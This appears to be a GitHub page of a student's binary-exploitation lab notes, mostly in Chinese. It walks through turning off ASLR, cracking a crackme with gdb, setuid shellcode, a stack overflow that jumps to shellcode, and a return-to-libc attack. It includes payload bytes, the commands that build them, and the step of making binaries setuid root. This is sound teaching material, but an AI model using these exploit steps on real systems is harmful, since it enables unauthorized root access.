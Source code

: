 Day4
===
關閉ASLR
---
    sysctl -a --pattren randomize
    sysctl -w kernal.randomize_va_space=0
![image](https://github.com/user-attachments/assets/55a72689-b830-4df2-b0c9-99ba9016c66c)

Check Binary
---
    strings ./crackme0x00a|grep GLIBC 檢查檔案資訊
    file crackme0x00a
![image](https://github.com/user-attachments/assets/94504db6-4f69-4356-a535-a9b9e08ee260)
![image](https://github.com/user-attachments/assets/0a47ab25-48c6-4f9c-a951-22e531be0862)

    rabin2拆解檔案內容 rabin2 -z crackme0x00a
![image](https://github.com/user-attachments/assets/916d8ce6-d3c0-4e8e-8677-c093d7a7b13a)

    使用gdb工具進行檔案拆解 gdb crackme0x00a
    
![image](https://github.com/user-attachments/assets/e19147fb-edb6-4dec-8618-0ab95d0bd773)

     disassemble main 
![image](https://github.com/user-attachments/assets/6a4893d2-828a-41ad-bf84-eb122e066542)

    x/s 0x804a024 解出密碼
![image](https://github.com/user-attachments/assets/651b701a-1e4b-490b-8440-666eca76768e)

    設定中斷點並執行
![image](https://github.com/user-attachments/assets/5b9cb403-1d59-4817-bbb5-f39dda6272e2)

    registers資訊，32bit有8個暫存器，64bit有16暫存器
![image](https://github.com/user-attachments/assets/25a6c5f9-d9aa-4564-a819-f83e5d8d7392)

    objectdump -d crackme0x00a or objectdump -d -M intel crackme0x00a
    兩者差異:
    AT&T有百分比，使用()，順序由左到右
![image](https://github.com/user-attachments/assets/7889f175-578d-4f6e-8bee-d13f7a59deb6)
![image](https://github.com/user-attachments/assets/ecc9b364-02c4-46cc-91cb-65ad5679a68e)

shellcode.c編譯&權限
---
    編譯shellcode.c，gcc shellcode.c -o shellcode -z execstack
![image](https://github.com/user-attachments/assets/d2348643-65b5-49db-a3eb-e222cbfad12d)

    執行shellcode
![image](https://github.com/user-attachments/assets/0cc8ebe4-6cfe-4d33-8c42-099e9a1262e1)

    提權&編譯
    加入 
    "\x6a\x17"		
    "\x58"			
    "\x31\xdb"		
    "\xcd\x80"
![image](https://github.com/user-attachments/assets/81e4e9b9-db86-4369-901e-d01c56423dbf)
![image](https://github.com/user-attachments/assets/a0cb0fd6-d96c-4d2e-a3f9-c7b3e9c154fe)

    變更擁有者和執行權限
    sudo chown root:root shellcode
    sudo chmod 4755 shellcode
![image](https://github.com/user-attachments/assets/fea8d6ed-5616-43e9-b6af-fb2b945c1cc4)

    執行確認uid=0(root)
![image](https://github.com/user-attachments/assets/78dcc4d2-c593-4b4b-ae1c-6e9e0d41bae0)

緩衝區益位stack.c
---
    編譯&變更擁有者和權限
    sudo gcc stack.c -o stack -z execstack -fno-stack-protector
    sudo chown root:root stack
    sudo chmod 4755 stack
    execstack 產生一個將堆疊標記為可執行或不可執行的部分
    -fno-stack-protector停用堆疊保護機制。堆疊保護是一項安全功能
![image](https://github.com/user-attachments/assets/9a5495a7-bd64-4f34-b81d-137ecd100c72)
![image](https://github.com/user-attachments/assets/66588ac4-ca39-4068-a785-e9559b93bc95)

    確認程式的保護機制
    checksec
![image](https://github.com/user-attachments/assets/405de152-e622-457f-ae43-a22f15d4bedc)

    反組譯程式碼
    disassemble main
    r
![image](https://github.com/user-attachments/assets/a3b70974-fdd0-4b88-b313-77374af32ad3)

    設定中斷點並找到所需檔名
    b *mian +55
    r
![image](https://github.com/user-attachments/assets/ebbd268b-7a78-43e2-8aad-3d507046e94b)

    建立badfile檔案並執行stack，程式就無報錯
![image](https://github.com/user-attachments/assets/96499010-86b7-4c68-8768-6a24f8ffe981)

    塞值到badfile讓他超出範圍
![image](https://github.com/user-attachments/assets/ed5b17bb-1597-4b8a-9601-8870048f721b)

    找出ret address ESP位置在第42bit
    pattern create 100 badfile
    r
    pattern search
![image](https://github.com/user-attachments/assets/1f3a871b-cf43-4a11-af79-1e3073ecbb10)
![image](https://github.com/user-attachments/assets/bc7a9aba-f6fe-418a-95d9-9e40ca0ec079)

    確認ret address 有塞BBBB的值
![image](https://github.com/user-attachments/assets/ef0644c7-485e-4b11-a945-9e1b38f28a41)
![image](https://github.com/user-attachments/assets/51cadb28-e0cb-494e-b104-9ca1835b2dac)

    將shellcode機器語言塞進去C的位置
    cat shellcode.c | grep '"' | cut -d'"' -f2,4 | tr -d '"' | tr -d '\n'
![image](https://github.com/user-attachments/assets/caa04db4-657e-42c9-b7be-3aa4cad186b1)
![image](https://github.com/user-attachments/assets/f5d740a9-287d-44b0-854d-f06f1c434198)
![image](https://github.com/user-attachments/assets/9ec9b776-0f34-43c7-85d7-03e63f12b028)

    利用jmpcall去執行shellcode
    vmmap
    jmpcall esp /lib/i386-linux-gnu/libc-2.23.so
![image](https://github.com/user-attachments/assets/18d71147-3075-4e68-8f7e-6ad980b72906)

    將找到的jump值塞入B的位置並執行stack，確認uid=0(root)
![image](https://github.com/user-attachments/assets/6784994b-5226-48fa-b7e9-5d4e710d8e21)

Return to Libc
---
   retlib.c line #11 40 > 140 
![image](https://github.com/user-attachments/assets/b25feb76-1f26-429d-9fc1-7789e8a89458)

    編譯retlib並變更擁有者和權限
    sudo gcc retlib.c -o retlib -fno-stack-protector -z noexecstack
    sudo chown root:root retlib
    sudo chmod 4755 retlib
![image](https://github.com/user-attachments/assets/6363d2ad-254d-4c8d-961d-6135138c4290)

    gdb -q ./retlib並確認目前的安全機制
![image](https://github.com/user-attachments/assets/42bf296f-1029-4a80-a3b9-456c3b9f61ac)

    反組譯程式碼
    disassemble main
    disassemble bof
![image](https://github.com/user-attachments/assets/078d312b-665b-42f6-ab18-ac6d1f0da6ce)
![image](https://github.com/user-attachments/assets/bf42fe1b-d5e0-44e7-bd66-513fe8fb3b07)

    塞值到badfile
    python -c 'print "A"*100' > badfile
![image](https://github.com/user-attachments/assets/d8c5d79e-4dcd-452c-b60d-b3e1932f26bf)

    找出ret address位置在第24bit
    pattern create 100 badfile
    r
    pattern search
![image](https://github.com/user-attachments/assets/9323d151-3d74-4a99-96fc-22ecbfc3d098)

    把24bit塞滿A確認ret address在BBBB的位置
    python -c 'print "A"*24 + "BBBB" + "C"*8' > badfile
    r
![image](https://github.com/user-attachments/assets/f56d03e9-a95f-4291-ba9f-ff2d950b5122)
![image](https://github.com/user-attachments/assets/2b1c9b3e-ad21-45fc-9c6a-d9660ef713f1)

    因有NX保護，無法在其他區域執行程式碼，所以要將ret address指到/bin/sh
    p system
    p exit
    find /bin/sh
![image](https://github.com/user-attachments/assets/d9d1b723-5667-4a89-bfd0-34074a0e55f6)

    將找到的機器語言加入到badfile
    python -c 'print "A"*24 + "\xb0\xfd\xe3\xb7" + "\xe0\x39\xe3\xb7" +"\x2b\x0b\xf6\xb7"' > badfile
    ./retlib
![image](https://github.com/user-attachments/assets/7078dd06-c7f2-4d3f-8cd8-ce23cff82a0b)
